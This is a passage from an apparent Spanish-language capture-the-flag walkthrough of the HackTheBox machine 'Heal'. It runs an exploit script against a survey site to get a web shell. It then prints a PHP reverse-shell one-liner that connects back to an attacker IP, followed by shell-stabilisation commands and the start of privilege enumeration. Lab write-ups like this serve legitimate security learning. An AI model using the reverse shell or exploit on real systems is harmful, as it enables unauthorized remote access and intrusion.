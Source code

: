 Y ahora dentro del repositorio tenemos el script de `console.py` le daremos permisos de ejecución y lo ejecutaremos de la siguiente manera:

```bash
$ ./console -t http://take-survey.heal.htb
```

Este script nos proporciona una `web shell` la cual usaremos para entablar una reverse Shell 


```php
php -r '$sock=fsockopen("10.10.16.78",443);shell_exec("sh <&3 >&3 2>&3");'
```

![Pasted image](./Pasted%20image%2020250116230204.jpeg)


y conseguimos nuestra reverse shell
![Pasted image](./Pasted%20image%2020250116230209.jpeg)


Si quieres puedes dar un tratamiento para que las flechas, Crtl L funcione.

```bash 
script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

# Ajusta a la medida de tu pantalla 
export TERM=xterm;export SHELL=bash;stty rows 41 columns 192
```


Empezaremos la búsqueda de información privilegiada ya que como www-data no tenemos muchos privilegios 
Tenemos un nuevo usuario que es `ron` el cual encontramos en la carpeta de `home` 